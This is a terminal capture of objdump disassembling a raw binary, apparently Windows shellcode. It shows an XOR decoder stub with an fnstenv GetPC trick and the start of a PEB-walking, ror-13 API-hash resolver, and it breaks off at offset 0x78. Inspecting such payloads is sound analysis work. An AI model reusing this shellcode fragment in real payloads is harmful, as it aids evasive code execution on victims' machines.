 

```assembly
@miningproject318 ➜ /workspaces/codespaces-jupyter (main) $ objdump -D -b binary -m i386 phongnh.bin

phongnh.bin:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:   db c5                   fcmovnb %st(5),%st
   2:   d9 74 24 f4             fnstenv -0xc(%esp)
   6:   58                      pop    %eax
   7:   bb 64 6e 19 88          mov    $0x88196e64,%ebx
   c:   31 c9                   xor    %ecx,%ecx
   e:   b1 59                   mov    $0x59,%cl
  10:   83 e8 fc                sub    $0xfffffffc,%eax
  13:   31 58 15                xor    %ebx,0x15(%eax)
  16:   03 58 15                add    0x15(%eax),%ebx
  19:   e2 f5                   loop   0x10
  1b:   fc                      cld    
  1c:   e8 8f 00 00 00          call   0xb0
  21:   60                      pusha  
  22:   31 d2                   xor    %edx,%edx
  24:   89 e5                   mov    %esp,%ebp
  26:   64 8b 52 30             mov    %fs:0x30(%edx),%edx
  2a:   8b 52 0c                mov    0xc(%edx),%edx
  2d:   8b 52 14                mov    0x14(%edx),%edx
  30:   31 ff                   xor    %edi,%edi
  32:   8b 72 28                mov    0x28(%edx),%esi
  35:   0f b7 4a 26             movzwl 0x26(%edx),%ecx
  39:   31 c0                   xor    %eax,%eax
  3b:   ac                      lods   %ds:(%esi),%al
  3c:   3c 61                   cmp    $0x61,%al
  3e:   7c 02                   jl     0x42
  40:   2c 20                   sub    $0x20,%al
  42:   c1 cf 0d                ror    $0xd,%edi
  45:   01 c7                   add    %eax,%edi
  47:   49                      dec    %ecx
  48:   75 ef                   jne    0x39
  4a:   52                      push   %edx
  4b:   8b 52 10                mov    0x10(%edx),%edx
  4e:   8b 42 3c                mov    0x3c(%edx),%eax
  51:   01 d0                   add    %edx,%eax
  53:   8b 40 78                mov    0x78(%eax),%eax
  56:   85 c0                   test   %eax,%eax
  58:   57                      push   %edi
  59:   74 4c                   je     0xa7
  5b:   01 d0                   add    %edx,%eax
  5d:   50                      push   %eax
  5e:   8b 58 20                mov    0x20(%eax),%ebx
  61:   8b 48 18                mov    0x18(%eax),%ecx
  64:   01 d3                   add    %edx,%ebx
  66:   85 c9                   test   %ecx,%ecx
  68:   74 3c                   je     0xa6
  6a:   49                      dec    %ecx
  6b:   8b 34 8b                mov    (%ebx,%ecx,4),%esi
  6e:   01 d6                   add    %edx,%esi
  70:   31 ff                   xor    %edi,%edi
  72:   31 c0                   xor    %eax,%eax
  74:   c1 cf 0d                ror    $0xd,%edi
  77:   ac                      lods   %ds:(%esi),%al
  78:   01 c7                   add    %eax,%edi
```